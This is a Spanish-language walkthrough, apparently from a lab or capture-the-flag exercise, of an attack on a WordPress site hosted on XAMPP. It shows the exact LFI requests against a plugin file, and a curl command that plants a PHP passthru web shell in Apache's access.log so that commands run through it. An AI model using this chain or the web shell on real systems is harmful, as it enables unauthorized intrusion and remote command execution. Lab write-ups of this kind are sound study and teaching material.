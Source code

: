 ![XAMPP|450](/imgs/009-w-1.png)

Tengo un XAMPP instalado en un windows y ese fichero suele estar en:

```zsh
C:\xampp\apache\conf\extra\httpd-xampp.conf
```

Lo leo

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\conf\extra\httpd-xampp.conf
```

Contiene una directiva `require local` para que no pueda manipularlo de forma remota, `require local`

```zsh
<LocationMatch "^/(?i:(?:xampp|security|licenses|phpmyadmin|webalizer|server-status|server-info))">
        Require local
	ErrorDocument 403 /error/XAMPP_FORBIDDEN.html.var
</LocationMatch>
```

No obstante, como tiene un XAMPP, se que sus logs los guarda en `C:\xampp\apache\logs\` cuyos ficheros mas importantes son `access.log` y `error.log` 
`
Lo compruebo:

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\logs\access.log
```

Si puedo leerlo. ¡Genial! Hemos confirmado la vulnerabilidad de inclusión de archivos locales (LFI) primero y ahora, debemos aprovechar esta vulnerabilidad para lograr la ejecución de código remoto (RCE).


Vamos a utilizar la técnica de *log poisoning*, https://htb.linuxsec.org/web-application/file-inclusion#log-poisoning-to-rce

Vamos a inyectar código PHP en el fichero de logs `access.log` de forma que luego podamos ejecutar comandos.

El parámetro de *curl* **-X** se utiliza para especificar el método que vamos a utilizar en la solicitud (get, post, put, delete, ...), sin embargo aquí en vez de poner un método añadimos la inyección. Esto dará un error que se almacenará en el access.log y como puedo leerlo, esa instrucción se interpretaría, con lo que tengo ya el RCE.
También podría servir el parámetro **-A**, que especifica el *user-agent*

```zsh
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://tripladvisor:8080/wordpress/
```
>Con esto lo inyectamos

Y ahora lo invocamos con un comando de ejemplo `dir`

```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=C:\xampp\apache\logs\access.log&cmd=dir
```
